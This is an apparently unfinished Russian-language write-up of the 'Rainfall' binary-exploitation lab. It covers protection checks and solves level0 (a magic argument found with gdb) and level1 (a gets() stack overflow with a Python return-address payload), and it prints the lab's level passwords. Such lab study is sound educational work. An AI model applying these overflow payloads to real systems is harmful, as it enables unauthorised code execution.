

<style>
  .filePath {
  background: red;
  color: white;
  }
  .off {
  color: red;
  }
  .on {
  color: green;
  }
</style>

# Rainfall
Проект по изучению методов взлома и поиску уязвимостей.

На платформе intra на странице проекта есть образ, который необходимо запустить на виртуальной машине и получить пароли от пользователей                               \
level0 level1 level2 level3 level4     \
level5 level6 level7 level8 level9     \
bonu0 bonu1 bonu02 bonu3 end

Скрипт для запуска образа в VirtualBox: [Vbox/setup.sh](./Vbox/setup.sh) .

Полученные пароли записаны в файлы: \
[levelX](./project)/flag,           \
[bonusX](./project)/flag,           \
где X - номер уровня, на котором получен пароль.

Ниже последовательно описаны мои действия по достижению цели.

<a name="content"></a> 
# Содержание и список полученных паролей от следующего пользователя

[Вступительная теория о списке состояния механизмов защиты ядра](#Preamble)

| Пользователь           | Уязвимость | Инструмент | Пароль от следующего пользователя  |  
| ---------------------- | ---------- | -----------| ----------------------:|
| [level0](#lvl0)        |  | gdb |  1fe8a524fa4bec01ca4ea2a869af2a02260d4a7d5fe7e7c24d8617e6dca12d3a |
| [level1](#lvl1)        | <p>NX disabled;</p><p>использование функции gets() </p>  |<p>поиск слабого места: gdb;</p> <p>взлом: верно подать в программу агумент с исполняемым кодом</p>|  |
| [level2](#lvl2)        |  |  |  |
| [level3](#lvl3)        |  |  |  |
| [level4](#lvl4)        |  |  |  |
| [level5](#lvl5)        |  |  |  |
| [level6](#lvl6)        |  |  |  |
| [level7](#lvl7)        |  |  |  |
| [level8](#lvl8)        |  |  |  |
| [level9](#lvl9)        |  |  |  |
| [bonus0](#bonus0)      |  |  |  |
| [bonus1](#bonus1)      |  |  |  |
| [bonus2](#bonus2)      |  |  |  |
| [bonus3](#bonus3)      |  |  |  |

#
###### [вернуться к содержанию](#content)
<a name="Preamble"></a> 
# Вступительная теория о списке состояния механизмов защиты ядра

После запуска ВМ при входе в пользователя появляется сообщение:
<pre>
_____       _       ______    _ _
|  __ \     (_)     |  ____|  | | |
| |__) |__ _ _ _ __ | |__ __ _| | |
|  _  /  _` | | '_ \|  __/ _` | | |
| | \ \ (_| | | | | | | | (_| | | |
|_|  \_\__,_|_|_| |_|_|  \__,_|_|_|

Good luck & Have fun

To start, ssh with level0/level0 on :4242
    level0@10.21.33.24's password:
    GCC stack protector support:            <font class=on>Enabled</font>
    Strict user copy checks:                <font class=off>Disabled</font>
    Restrict /dev/mem access:               <font class=on>Enabled</font>
    Restrict /dev/kmem access:              <font class=on>Enabled</font>
    grsecurity / PaX: <font class=off>No GRKERNSEC</font>
    Kernel Heap Hardening: <font class=off>No KERNHEAP</font>
    System-wide ASLR (kernel.randomize_va_space): <font class=off>Off (Setting: 0)</font>
    RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
    <font class=off>No RELRO        No canary found   <font class=on>NX enabled</font>    No PIE</font>          <font class=on>No RPATH   No RUNPATH</font>   <font class=filePath>/home/user/level0/level0</font>
</pre>
Это список состояния механизмов защиты ядра.

Чтобы повторно посмотреть этот вывод, можно вызвать 3 команды:
```sh
checksec --kernel
cat /proc/sys/kernel/randomize_va_space
checksec --file /home/user/level0/level0
```
Хорошие статьи о checksec и randomize_va_space:
1. [о checksec --kernel
GCC stack protector support, Strict user copy checks, Restrict /dev/mem access, Restrict /dev/kmem access, grsecurity / PaX, Kernel Heap Hardening](https://blog.siphos.be/2011/07/high-level-explanation-on-some-binary-executable-security/),    
2. [о checksec --file и не только. RELPO, CANARY, NX, PIE](https://opensource.com/article/21/6/linux-checksec)     
3. [о kernel.randomize_va_space (ASLR)](https://www.spec.org/cpu2017/flags/Supermicro-Platform-Settings-V1.2-Milan-revC.html) 
4. [/proc/sys/kernel/randomize_va_space](https://www.kernel.org/doc/Documentation/sysctl/kernel.txt)
5. [kernel.randomize_va_space (ASLR)](https://www.spec.org/cpu2017/flags/Supermicro-Platform-Settings-V1.2-Milan-revC.html)

Значения некоторых механизмов защиты ядра:
1. <a href="http://grsecurity.net/"> The grsecurity / PaX patchset is available here. </a>
2. <a href="https://www.subreption.com/kernheap/"> The KERNHEAP hardening patchset is available here </a>

Еще кое-что для чтения о взломах
[Переполнение буфера: анатомия эксплоита](https://www.securitylab.ru/analytics/421994.php)

<details> 
  <summary> Некоторые рассуждения о прочитанном </summary>
    <ol>
      <li> 
          <p>
            Можно в определенных ситуациях воспользоваться перезаписью данных в переменную (перезаписать данные за пределами переменной):
          </p>
        <pre> Strict user copy checks:                <font class=off>Disabled</font></pre>
      </li>
      <li>
          <p>
          Можно попробовать вычислить нужный адрес процесса:
          </p>
        <pre> System-wide ASLR (kernel.randomize_va_space): <font class=off>Off (Setting: 0)</font></pre>
          <p>
            "Этот параметр можно использовать для выбора типа рандомизации адресного пространства процесса. Значения по умолчанию различаются в зависимости от того, поддерживает ли архитектура ASLR, было ли ядро ​​собрано с параметром CONFIG_COMPAT_BRK или нет, или от используемых параметров загрузки ядра.
          </p>
          <ul>
            Возможные настройки:
            <li>0: отключить рандомизацию адресного пространства процесса.</li>
            <li>1: Рандомизировать адреса базы mmap, стека и страниц VDSO.</li>
            <li>2: дополнительно рандомизируйте кучу. (Вероятно, это значение по умолчанию.)</li>
          </ul>
          <a href="https://www.spec.org/cpu2017/flags/Supermicro-Platform-Settings-V1.2-Milan-revC.html">
            "Отключение ASLR может сделать выполнение процессов более детерминированным, а время выполнения — более согласованным."
          </a>
      </li>
      <li>
        grsecurity / PaX: Custom GRKERNSEC
        <pre>
Non-executable kernel pages:            <font class=on>Enabled</font> / <font class=off>Disabled</font>
Prevent userspace pointer deref:        <font class=on>Enabled</font> / <font class=off>Disabled</font>
Prevent kobject refcount overflow:      <font class=on>Enabled</font> / <font class=off>Disabled</font>
Bounds check heap object copies:        <font class=on>Enabled</font> / <font class=off>Disabled</font>
Disable writing to kmem/mem/port:       <font class=on>Enabled</font> / <font class=off>Disabled</font>
Disable privileged I/O:                 <font class=on>Enabled</font> / <font class=off>Disabled</font>
Harden module auto-loading:             <font class=on>Enabled</font> / <font class=off>Disabled</font>
Hide kernel symbols:                    <font class=on>Enabled</font> / <font class=off>Disabled</font>
        </pre>
        Поскольку No GRKERNSEC, то всё вышеописанное отключено.
        <p>
          <a href="https://blog.siphos.be/2011/07/checksec-kernel-security/"> Подробнее об этих параметрах</a>
        </p>
        <p>
          <a href="https://www.opennet.ru/cgi-bin/opennet/man.cgi?topic=iopl&category=2"> ioperm и iopl </a>
        </p>
      </li>
    </ol>
</details>

#
###### [вернуться к содержанию](#content)
<a name="lvl0"></a> 
# level0

1. Проверяю содержимое директории и пробую запустить найденный файл различными способами:
```sh
ls -la
# ||
# \/
# -rwsr-x---+ 1 level1 users  747441 Mar  6  2016 level0

./level0
# ||
# \/
# Segmentation fault (core dumped)

ldd ./level0
# ||
# \/
# not a dynamic executable
```
Ссылки для чтения:
* [о чем говорит вывод `not a dynamic executable`](https://stackoverflow.com/questions/26541049/ltrace-couldnt-find-dynsym-or-dynstr-in-library-so) \
* [Как работает ltrace (инструмент трассировки библиотек)](https://stackoverflow.com/questions/32214079/how-does-ltrace-library-tracing-tool-work) \
* [внутреннее устройство ltrace](https://www.kernel.org/doc/ols/2007/ols2007v1-pages-41-52.pdf)

```sh
./level0 -1
# ||
# \/
# No !

gdb ./level0
(gdb) disas main
# ||
# \/
   0x08048ecc <+12>:	add    $0x4,%eax
   0x08048ecf <+15>:	mov    (%eax),%eax
   0x08048ed1 <+17>:	mov    %eax,(%esp)
   0x08048ed4 <+20>:	call   0x8049710 <atoi>
   0x08048ed9 <+25>:	cmp    $0x1a7,%eax
   0x08048ede <+30>:	jne    0x8048f58 <main+152>
```
Эти строки говорят о том, что при запуске ./level0 с аргументом, аргумент будет переведен в число и сравнен со значением 0x1a7<sub>16</sub> = 423<sub>10</sub>. При совпадении значений, будет произведен прыжок на 0x8048f58 <main+152> . 

2. Пробую 423 в качестве эксплоита:

```sh
./level0 423
$ cat /home/user/level1/.pass
# ||
# \/
# 1fe8a524fa4bec01ca4ea2a869af2a02260d4a7d5fe7e7c24d8617e6dca12d3a
$ exit
level0@RainFall:~$ su level1
# Password: 1fe8a524fa4bec01ca4ea2a869af2a02260d4a7d5fe7e7c24d8617e6dca12d3a
```

#
###### [вернуться к содержанию](#content)
<a name="lvl1"></a> 
# level1

<pre>
level0@RainFall:~$ su level1
<font color=grey>Password: 1fe8a524fa4bec01ca4ea2a869af2a02260d4a7d5fe7e7c24d8617e6dca12d3a</font>

RELRO      STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
<font class=off>No RELRO   No canary found   NX disabled   No PIE</font>          <font class=on>No RPATH   No RUNPATH</font>   <font class=filePath>/home/user/level1/level1</font>
</pre>

...................... \
RELRO: [защищает структуры исполняемого ELF-файла (изменение которых позволяет взломщику изменить ход выполнения программы) путем модификации секций PLT (Procedure Linking Table) или GOT (Global Offset Table) ELF-файла. При полном RELRO, вся таблица GOT перед началом исполнения в памяти помечается доступной только для чтения и таким образом предотвращает свою модификацию потенциальным злоумышленником.](https://www.opennet.ru/opennews/art.shtml?num=27938) Значит, что в этом случае можно "на ходу" поменять выполнение программы.

...................... \
No canary found - значит можно переполнить буфер и положить нужные нам значения для возврата из функции.

...................... \
No PIE - отключена рандомизация адресного пространства.

...................... \
NX: в полученном выводе видно, что NX выключено, значит, можно при запуске level1 поместить в стек исполняемый код и запустить его. Именно этим ниже я и воспользуюсь.

...................... \
исполняемый файл будет всегда запускаться от имени владельца - это level2:
```sh
ls -la
# ||
# \/
# -rwsr-s---+ 1 level2 users  5138 Mar  6  2016 level1

getfacl level1 
# ||
# \/
# # file: level1
# # owner: level2
# # group: users
# # flags: ss-
# user::rwx
# user:level2:r-x
# user:level1:r-x
# group::---
# mask::r-x
# other::---
```
Значит, с помощью этой программы можно получить доступ к файлам, на которые есть права у level2.

...................... 

1. Проверяю содержимое директории и пробую запустить найденный файл различными способами:
```sh
ls -la
# ||
# \/
# -rwsr-s---+ 1 level2 users  5138 Mar  6  2016 level1

./level1
# ||
# \/
# maybe loop or waiting for something...or something else

ltrace ./level1
# ||
# \/
# __libc_start_main(0x8048480, 1, 0xbffff7b4, 0x80484a0, 0x8048510 <unfinished ...>
# gets(0xbffff6d0, 47, 0xbffff71c, 0xb7fd0ff4, 0x80484a0
# )                           = 0xbffff6d0
# +++ exited (status 208) +++

```
2. Использование уязвимости:
NX disabled + No canary found + NO PIE + gets(), в которую подан аргумент при вызове программы.

[ссылка о работе стека.](https://www.opennet.ru/base/dev/stack_intro.txt.html)

gets() не проверяет длину поданной строки. И в этом уязвимость функции - можно переполнить буфер и положить вредоносный код (эксплоит).

```sh
gdb -batch -ex 'file ./level1' -ex 'disas main'
# ||
# \/
# Dump of assembler code for function main:
#    0x08048480 <+0>:     push   %ebp
#    0x08048481 <+1>:     mov    %esp,%ebp
#    0x08048483 <+3>:     and    $0xfffffff0,%esp
#    0x08048486 <+6>:     sub    $0x50,%esp
#    0x08048489 <+9>:     lea    0x10(%esp),%eax
#    0x0804848d <+13>:    mov    %eax,(%esp)
#    0x08048490 <+16>:    call   0x8048340 <gets@plt>
#    0x08048495 <+21>:    leave  
#    0x08048496 <+22>:    ret    
# End of assembler dump.
```
<details> 
  <summary> Анализ disassemble main (не обязательно к прочтению) в развороте: </summary>
создается стековый фрейм (stack frame) или кадр стека: \
`0x08048480 <+0>:     push   %ebp` сохраняет в стеке содержимое регистра EBP \
`0x08048481 <+1>:     mov    %esp,%ebp` присваивает регистру
EBP значение ESP \
`0x08048483 <+3>:     and    $0xfffffff0,%esp` выравнивание стека по 16-байтовой границе

Далее: \
`0x08048486 <+6>:     sub    $0x50,%esp` резерв места для локальных переменных функции main 50<sub>16</sub> = 80<sub>10</sub> байт

Приготовления для вызова функции gets(): \
`0x08048489 <+9>:     lea    0x10(%esp),%eax` в eax помещается значение `esp+10` [(без разименования)](https://stackoverflow.com/questions/1658294/whats-the-purpose-of-the-lea-instruction), то есть адрес. \
`0x0804848d <+13>:    mov    %eax,(%esp)` в gets() передается указатель. \
`0x08048490 <+16>:    call   0x8048340 <gets@plt>` вызов gets()

Последнее:
`0x08048495 <+21>:    leave  ` \
Инструкция leave равносильна двум инструкциям \
1: `mov esp,ebp` вершина стрека указывает на значение, которое занимала перед входом в функцию main \
2: `pop ebp` ebp опять принимает значение ebp вызывающей функции. \
`0x08048496 <+22>:    ret    `
инструкция ret верхнее значение стека присваивает регистру eip, [предполагая, что это сохраненный адрес возврата в вызывающую функцию, переходит по этому адресу](https://snovvcrash.rocks/2019/10/20/classic-stack-overflow.html).
</details>

Интересующая строка: \
`0x08048496 <+22>:    ret  ` \
В соответствии с анализом, приведенным выше, надо переполнить буфер и подать нужный адрес на место, где в стеке размещался бы регистр eip. Ниже это я рассмотрю.

## Разработка эксплоита:
1. Расчет смещения EIP (адреса возврата) \
[Воспользуюсь сайтом.](https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/)

Нужное смещение 76 байт.


2. Поиск места для подмены адреса возврата:

```sh

gdb

disassemble TAB
# || 
# \/
# gets
# main
# run
# system
# fwrite
# data_start
# frame_dummy
# ...
```
среди функций есть system(). Нахожу функцию, которая ее вызывает (в main не было такой). Нахожу в run:
```sh
gdb -batch -ex 'file ./level1' -ex 'disassemble run' | grep system
# || 
# \/
#  0x08048479 <+53>:    call   0x8048360 <system@plt>
```
Отлично. \
Теперь нужно подать вместо адреса возврата в main адрес перед вызовом system(), то есть любой (включая адрес самой функции run(0)) до system() внутри run():
```sh
gdb
(gdb) disassemble run
# || 
# \/
# Dump of assembler code for function run:
#    0x08048444 <+0>:     push   %ebp
#    0x08048445 <+1>:     mov    %esp,%ebp
#    0x08048447 <+3>:     sub    $0x18,%esp
#    0x0804844a <+6>:     mov    0x80497c0,%eax
#    0x0804844f <+11>:    mov    %eax,%edx
#    0x08048451 <+13>:    mov    $0x8048570,%eax
#    0x08048456 <+18>:    mov    %edx,0xc(%esp)
#    0x0804845a <+22>:    movl   $0x13,0x8(%esp)
#    0x08048462 <+30>:    movl   $0x1,0x4(%esp)
#    0x0804846a <+38>:    mov    %eax,(%esp)
# ---Type <return> to continue, or q <return> to quit---
#    0x0804846d <+41>:    call   0x8048350 <fwrite@plt>
#    0x08048472 <+46>:    movl   $0x8048584,(%esp)
#    0x08048479 <+53>:    call   0x8048360 <system@plt>
#    0x0804847e <+58>:    leave  
#    0x0804847f <+59>:    ret    
# End of assembler dump.
```
Таким образом подойдет любой из этих:
0x08048444 \
0x08048445 \
0x08048447 \
0x0804844a \
0x0804844f \
0x08048451 \
0x08048456 \
0x0804845a \
0x08048462 \
0x0804846a \
0x0804846d \
0x08048472 

Я возьму на строку выше, чем system(): \
0x08048472 <+46>:    movl   $0x8048584,(%esp) \

```sh
#                                       0x08048472
(echo $(python -c 'print "a" * 76 + "\x72\x84\x04\x08"'); cat) | ./level1
whoami
# || 
# \/
# level2
cat /home/user/level2/.pass
# || 
# \/
# 53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

su level2
# Password: 53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77

#
###### [вернуться к содержанию](#content)
<a name="lvl2"></a> 
# level2

<pre>
level0@RainFall:~$ su level2
<font color=grey>Password: 53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77</font>

RELRO      STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
<font class=off>No RELRO   No canary found   NX disabled   No PIE</font>          <font class=on>No RPATH   No RUNPATH</font>   <font class=filePath>/home/user/level2/level2</font>
</pre>

#
###### [вернуться к содержанию](#content)
<a name="lvl3"></a> 
# level3

#
###### [вернуться к содержанию](#content)
<a name="lvl4"></a> 
# level4

#
###### [вернуться к содержанию](#content)
<a name="lvl5"></a> 
# level5

#
###### [вернуться к содержанию](#content)
<a name="lvl6"></a> 
# level6

#
###### [вернуться к содержанию](#content)
<a name="lvl7"></a> 
# level7

#
###### [вернуться к содержанию](#content)
<a name="lvl8"></a> 
# level8

#
###### [вернуться к содержанию](#content)
<a name="lvl9"></a> 
# level9

#
###### [вернуться к содержанию](#content)
<a name="bonus0"></a> 
# bonus0

#
###### [вернуться к содержанию](#content)
<a name="bonus1"></a> 
# bonus1

#
###### [вернуться к содержанию](#content)
<a name="bonus2"></a> 
# bonus2

#
###### [вернуться к содержанию](#content)
<a name="bonus3"></a> 
# bonus3
